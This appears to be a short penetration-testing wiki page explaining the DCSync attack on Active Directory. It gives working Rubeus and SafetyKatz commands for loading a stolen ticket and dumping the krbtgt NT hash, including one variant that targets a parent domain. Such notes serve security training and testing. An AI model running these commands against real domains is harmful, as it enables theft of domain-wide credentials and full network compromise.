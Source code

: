 # DCSync

Active Directories may have multiple domain controllers: when a change is performed on one domain controller, it is necessary that the other domain controllers be aware of the change. Therefore, there is a replication mechanism implemented to perform synchronisation of the data held by the DC.

Domain controllers have by default the right `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`. The former is usually necessary to replicate non-sensitive changes; the latter also replicates secrets. Both rights are needed to perform a `DCSync` attack.

Note that in general, no user account should be granted this right.

## With a TGT

In this example, we have a TGT for the machine account of a domain controller (obtained for instance through [unconstrained-delegation.md](unconstrained-delegation.md "mention")).

We first load the ticket in memory:

```powershell
> Rubeus.exe ptt /ticket:<base64>
```

Then use `SafetyKatz` to perform `DCSync`:

```powershell
> SafetyKatz.exe "lsadump::evasive-dcsync /user:us\krbtgt" "exit"
```

This command retrieves the NT hash of the `krbtgt` user.

If you have a ticket for a parent domain, add the correct DC to the parameters:

```powershell
> SafetyKatz.exe "lsadump::evasive-dcsync /user:parentdomain\krbtgt /domain:parentdomain.local" "exit"
```
